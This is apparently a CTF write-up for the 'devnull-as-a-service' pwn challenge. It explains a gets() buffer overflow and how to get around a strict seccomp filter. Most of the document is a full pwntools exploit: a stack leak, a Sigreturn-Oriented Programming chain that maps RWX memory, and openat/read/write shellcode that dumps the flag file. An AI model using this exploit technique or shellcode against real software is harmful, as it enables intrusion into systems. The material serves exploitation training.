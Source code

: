 ```yaml
---
title: "[WRITE UP] - devnull-as-a-service"
published: 2025-01-30
description: ""
image: "./image.png"
tags:
  - PWN
category: "CTF Write ups"
draft: false
---
```


# Description
> A few months ago, I came across this website. Inspired by it, I decided to recreate the service in C to self-host it.
To avoid any exploitable vulnerabilities, I decided to use a very strict seccomp filter. Even if my code were vulnerable, good luck exploiting it.
PS: You can find the flag at `/home/ctf/flag.txt` on the remote server.

# Challenge Overview
The challenge involves exploiting a buffer overflow in a `non-PIE` binary with a strict `seccomp` filter. The goal is to read the flag from `/home/ctf/flag.txt` using allowed syscalls. The key steps involve leaking a stack address, crafting a `Sigreturn-Oriented Programming (SROP)` chain to create an `RWX` memory region, and executing shellcode that utilizes `openat`, `read`, and `write` syscalls.

# Binary Analysis
- Security Features: `Partial RELRO`, `Stack Canary`, `NX Enabled`, `No PIE`.
- Vulnerability: `gets()` in `dev_null()` causing a `buffer overflow`.
- Seccomp Rules: Blocks dangerous syscalls (e.g., `open`, `execve`) but allows `openat`, `read`, `write`, and `sigreturn`.

# Exploit

Looking back, this article seems to be a shellcode article because it has seccomp and although NX is enabled, we can still execute shellcode through ROP, we can use some syscalls like `mmap`, `mprotect` to grant permissions to a certain memory area. This article is special in that there are no common `gadgets` for us to execute a normal ROP chain, but instead there are `syscalls` and `pop rax`, we can immediately think of using `SROP`.

:::note
`Sigreturn-Oriented Programming (SROP)` is an exploitation technique that abuses the Linux kernel’s signal-handling mechanism. When a process receives a signal (e.g., segmentation fault), the kernel saves the process’s execution context (registers, stack, etc.) onto the stack. After handling the signal, the kernel restores the context using the sigreturn syscall. `SROP` exploits this mechanism by forging a fake signal frame on the stack and triggering sigreturn to hijack control of all registers, effectively allowing arbitrary syscalls or code execution.
:::

So the idea for this:

- Leak Stack Address: Use a ROP chain to leak `__libc_stack_end` to determine stack layout.
- `SROP` for RWX Memory: Use `SROP` to call `mmap` and create an executable memory region.
- Shellcode Execution: Inject shellcode using `openat` to open the flag, `read` it, and `write` to stdout.

- **`Exploit`**:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./dev_null', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*dev_null+52
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

'''
[*] '/home/alter/CTFs/x3CTF/devnull-as-a-service/dev_null'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
'''

def stage1():

    pl = flat(
        b'A'*16,
        pop_rdi,
        exe.sym.__libc_stack_end,
        exe.sym.puts,
        exe.sym.main,
    )

    sl(pl)
    rl()
    __libc_stack_end = unpack(p.recv()[:6].ljust(8, b"\x00"))
    slog("__libc_stack_end:", __libc_stack_end)

    return __libc_stack_end

def stage2():

    pl = flat(
        b'A'*16,
        pop_rdi,
        stack_address,
        exe.sym.gets,
        exe.sym.main,
      )

    sl(pl)
    sl(cyclic(40) + p64(exe.sym.main))

# void *mmap(void addr[.length], size_t length, int prot, int flags, int fd, off_t offset);
def stage3():

    frame = SigreturnFrame()
    frame.rax = 0x9    # mmap syscall
    frame.rdi = rwx    # addr
    frame.rsi = 0x1000 # size
    frame.rdx = 0x7    # prot (RWX)
    frame.r10 = 0x22   # flags (MAP_ANONYMOUS|MAP_PRIVATE)
    frame.r8 = 0       # fd
    frame.r9 = 0       # offset
    frame.rsp = stack_address + 0x28 # return to main
    frame.rip = syscall

    pl = flat(
        b'A'*16,
        pop_rax,
        0xf,
        syscall
    )
    pl += bytes(frame)

    sl(pl)

def stage4():

    pl = flat(
        b'A'*16,
        pop_rdi,
        rwx,
        exe.sym.gets,
        exe.sym.main,
    )

    sc = asm('''nop\n'''*0x10+'''

        xor rax, rax
        mov rax, 0x101
        mov rdi, -1
        lea rsi, [rip + file_path]
        syscall

        mov rdi, rax
        mov rsi, rsp
        mov rdx, 0x50
        mov rax, 0
        syscall

        mov rdx, 0x50
        mov rdi, 1
        mov rsi, rsp
        mov rax, 1
        syscall

        file_path:
            .asciz "/home/ctf/flag.txt"

        ''', arch='amd64')

    sl(pl)
    sl(sc)

def stage5():

    pl = flat(

        b'A'*16,
        rwx
    )

    sl(pl)

def exploit():
    global pop_rdi, stack_address, pop_rax, syscall, rwx

    pop_rdi = 0x413795
    pop_rax = 0x42193c
    syscall = 0x40bcd6
    rwx = 0x12345
    stack_address = stage1()

    stage2()
    stage3()
    stage4()
    stage5()

    interactive()

if __name__ == '__main__':
    exploit()
```
